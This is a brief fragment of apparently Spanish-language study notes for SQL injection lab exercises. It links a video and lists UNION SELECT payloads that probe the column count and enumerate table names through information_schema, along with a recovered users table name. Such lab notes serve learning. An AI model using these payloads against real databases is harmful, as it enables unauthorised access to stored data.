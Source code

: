 ![alt text](image.png)

* haz lo que se muestra en las imagenes y listo

## 8. [LAB 8 SQLi ](https://www.youtube.com/watch?v=JduM_dO8glw)
* '+UNION+SELECT+'abc','def'--
* '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    * users_kxxzwr
![alt text](image-4.png)
